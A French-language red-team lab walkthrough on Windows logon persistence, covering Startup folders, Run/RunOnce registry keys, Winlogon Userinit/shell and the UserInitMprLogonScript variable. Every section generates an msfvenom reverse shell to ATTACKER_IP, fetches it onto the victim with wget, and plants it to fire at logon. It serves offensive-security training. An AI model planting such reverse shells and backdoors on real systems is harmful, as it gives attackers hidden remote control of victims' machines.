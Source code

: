 Certaines actions effectuées par un utilisateur peuvent également être liées à l'exécution de charges utiles spécifiques à des fins de persistance. Les systèmes d'exploitation Windows présentent plusieurs façons de lier les charges utiles à des interactions particulières. Cette tâche examinera les moyens d'implanter des charges utiles qui seront exécutées lorsqu'un utilisateur se connectera au système.

Dossier de démarrage

Chaque utilisateur dispose d'un dossier dans `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`lequel vous pouvez placer les exécutables à exécuter chaque fois que l'utilisateur se connecte. Un attaquant peut obtenir la persistance simplement en y déposant une charge utile. Notez que chaque utilisateur n'exécutera que ce qui est disponible dans son dossier.

Si nous voulons forcer tous les utilisateurs à exécuter une charge utile lors de la connexion, nous pouvons utiliser le dossier ci-dessous `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` de la même manière.

Pour cette tâche, générons une charge utile de shell inversé à l'aide de msfvenom :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

Nous copierons ensuite notre charge utile dans la machine victime. Vous pouvez générer un `http.server`avec Python3 et utiliser wget sur la machine victime pour extraire votre fichier :

|

Boîte d'attaque

```
user@AttackBox$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

 | ➜ |

PowerShell

```
PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
```

 |

Nous stockons ensuite la charge utile dans le `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`dossier pour récupérer un shell pour tout utilisateur se connectant à la machine.

Invite de commande

```
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Assurez-vous maintenant de vous déconnecter de votre session depuis le menu Démarrer (fermer la fenêtre RDP ne suffit pas car cela laisse votre session ouverte) :

![f0ba7fd44646d55c5505737642bdd96e](https://github.com/dsgsec/Red-Team/assets/82456829/d01ddbd9-1ceb-4698-a233-ff84722d8513)


Et reconnectez-vous via RDP . Vous devriez immédiatement recevoir une connexion vers la machine de votre attaquant.


Exécuter/ExécuterUne fois

Vous pouvez également forcer un utilisateur à exécuter un programme lors de sa connexion via le registre. Au lieu de transmettre votre charge utile dans un répertoire spécifique, vous pouvez utiliser les entrées de registre suivantes pour spécifier les applications à exécuter lors de la connexion :

-   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Les entrées de registre ci-dessous `HKCU`s'appliqueront uniquement à l'utilisateur actuel et celles ci-dessous `HKLM`s'appliqueront à tout le monde. Tout programme spécifié sous les `Run`clés s'exécutera à chaque fois que l'utilisateur se connectera. Les programmes spécifiés sous les `RunOnce`touches ne seront exécutés qu'une seule fois.

Pour cette tâche, créons un nouveau shell inversé avec msfvenom :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

Après l'avoir transféré sur la machine victime, déplaçons-le vers`C:\Windows\` :

Invite de commande

```
C:\> move revshell.exe C:\Windows
```

Créons ensuite une `REG_EXPAND_SZ`entrée de registre sous `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. Le nom de l'entrée peut être celui que vous voulez et la valeur sera la commande que nous voulons exécuter.

Remarque : Dans une configuration réelle, vous pouvez utiliser n'importe quel nom pour votre entrée de registre. Pour cette tâche, vous devez l'utiliser `MyBackdoor` pour recevoir l'indicateur.

![c99038cd6cc9e37512edabb1f873a4da](https://github.com/dsgsec/Red-Team/assets/82456829/528e465a-7b48-4e69-bd80-dbe4d818dd90)

Après cela, déconnectez-vous de votre session en cours et reconnectez-vous, et vous devriez recevoir un shell (cela prendra probablement environ 10 à 20 secondes).


Connexion Win

Une autre alternative pour démarrer automatiquement les programmes lors de la connexion consiste à abuser de Winlogon, le composant Windows qui charge votre profil utilisateur juste après l'authentification (entre autres).

Winlogon utilise certaines clés de registre `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`qui pourraient être intéressantes pour gagner en persistance :

-   `Userinit`pointe vers `userinit.exe`, qui se charge de restaurer les préférences de votre profil utilisateur.
-   `shell`pointe vers le shell du système, qui est généralement `explorer.exe`.

![f3c2215af6e3f2d19313498fca62a9d4](https://github.com/dsgsec/Red-Team/assets/82456829/55ad8354-fcba-4088-9ece-56eef959dfe3)

Si nous remplaçons l'un des exécutables par un shell inversé, nous interromprions la séquence de connexion, ce qui n'est pas souhaité. Fait intéressant, vous pouvez ajouter des commandes séparées par une virgule et Winlogon les traitera toutes.

Commençons par créer un shell :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

Nous allons transférer le shell sur notre machine victime comme nous l'avons fait précédemment. Nous pouvons ensuite copier le shell dans n'importe quel répertoire de notre choix. Dans ce cas, nous utiliserons `C:\Windows`:

Invite de commande

```
C:\> move revshell.exe C:\Windows
```

Nous modifions ensuite soit `shell`ou `Userinit`in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. Dans ce cas nous utiliserons `Userinit`, mais la procédure avec `shell`est la même.

Remarque : Bien que les deux `shell`puissent `Userinit`être utilisés pour obtenir de la persistance dans un scénario réel, pour obtenir le drapeau dans cette pièce, vous devrez utiliser `Userinit`.

![dc5fa3e75ff056f11e16c03373799f45](https://github.com/dsgsec/Red-Team/assets/82456829/47763079-57c0-470c-8bf9-92cfa3bf031d)

Après cela, déconnectez-vous de votre session en cours et reconnectez-vous, et vous devriez recevoir un shell (cela prendra probablement environ 10 secondes).


Scripts de connexion

L'une des choses `userinit.exe`à faire lors du chargement de votre profil utilisateur est de rechercher une variable d'environnement appelée `UserInitMprLogonScript`. Nous pouvons utiliser cette variable d'environnement pour attribuer un script de connexion à un utilisateur qui sera exécuté lors de la connexion à la machine. La variable n'est pas définie par défaut, nous pouvons donc simplement la créer et attribuer le script de notre choix.

Notez que chaque utilisateur possède ses propres variables d'environnement ; par conséquent, vous devrez effectuer une porte dérobée séparément.

Créons d'abord un shell inversé à utiliser pour cette technique :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

Nous allons transférer le shell sur notre machine victime comme nous l'avons fait précédemment. Nous pouvons ensuite copier le shell dans n'importe quel répertoire de notre choix. Dans ce cas, nous utiliserons `C:\Windows`:

Invite de commande

```
C:\> move revshell.exe C:\Windows
```

Pour créer une variable d'environnement pour un utilisateur, vous pouvez accéder à celle-ci `HKCU\Environment`dans le registre. Nous utiliserons l' `UserInitMprLogonScript`entrée pour pointer vers notre charge utile afin qu'elle soit chargée lorsque les utilisateurs se connecteront :

![9ce41ee1fc282b8dcacd757b23417b12](https://github.com/dsgsec/Red-Team/assets/82456829/5940e596-1e7a-4d47-9947-67b9a0f30f7d)

Notez que cette clé de registre n'a pas d'équivalent dans `HKLM`, ce qui fait que votre porte dérobée s'applique uniquement à l'utilisateur actuel.

Après cela, déconnectez-vous de votre session en cours et reconnectez-vous, et vous devriez recevoir un shell (cela prendra probablement environ 10 secondes).
